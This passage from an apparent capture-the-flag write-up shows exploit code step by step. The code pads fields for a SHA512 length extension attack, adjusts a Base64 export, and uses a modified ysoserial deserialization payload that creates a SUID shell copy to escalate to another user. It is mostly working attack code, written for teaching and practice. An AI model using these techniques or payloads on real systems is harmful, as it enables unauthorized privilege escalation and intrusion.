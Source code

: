 To fill out the last SHA512 block so that the length extension attack is easier to pull off, we set
the `name` field to 128 'A's.

```python
    # Set a name of at least the SHA512 block size.
    c.recvuntil(b'Choice: ')
    name = b'A' * (1024//8)
    c.sendline('1')
    c.sendline(name)
    c.recvuntil(b'Name set!')
    log.info('Successfully set a new name to ensure a large enough input size.')
```

Now, to append a Base64 tail to the end of the original data, we want to avoid padding in the front
segment. To do this, we adjust the length of the `captions` field until we get an export that does
not contain any padding. We keep track of this exported cake for later use.

```python
    # Set a caption until the base64 cake output requires no padding.
    log.info('Looking for a suitable cake export...')
    cake_struct = None
    caption_length = 0
    while True:
        # Get the current exported cake.
        c.recvuntil(b'Choice: ')
        c.sendline(b'7')
        c.recvuntil(b"Here's your cake to go:\n")
        json_data = c.recvuntil(b'\n').strip()
        cake_struct = json.loads(json_data)
        cake_base64 = binascii.unhexlify(cake_struct['cake'])

        # Print some information.
        log.info("Caption Length: {}".format(caption_length))
        log.info("Cake: {}".format(cake_base64.decode('ascii')))
        log.info("Digest: {}".format(cake_struct['digest']))

        # If it meets the constraints, then break immediately.
        if cake_base64[-1] != ord(b'='):
            break

        # Otherwise, add more captions.
        c.recvuntil(b'Choice: ')
        c.sendline(b'3')
        caption_length += 1
        caption = b'B' * caption_length
        c.sendline(caption)
        c.recvuntil(b'Caption set!')
```

Then, we call the modified ysoserial to generate the payload for another SUID shell that allows us
to escalate to the `hatter` user.

```python
    # Generate the deserialization payload.
    log.info('Generating FST Deserialization payload to create a hatter SUID binary.')
    fst_payload = subprocess.check_output(
        ['java', '-jar', 'ysoserial-fst-private-master/target/ysoserial-0.0.6-SNAPSHOT-all.jar',
         '-fst', 'CommonsBeanutils1',
         'bash -c {cp,/bin/sh,/tmp/hackers_use_me/pwn2};{chmod,+s,/tmp/hackers_use_me/pwn2}'],
        stderr=subprocess.DEVNULL
    )
```
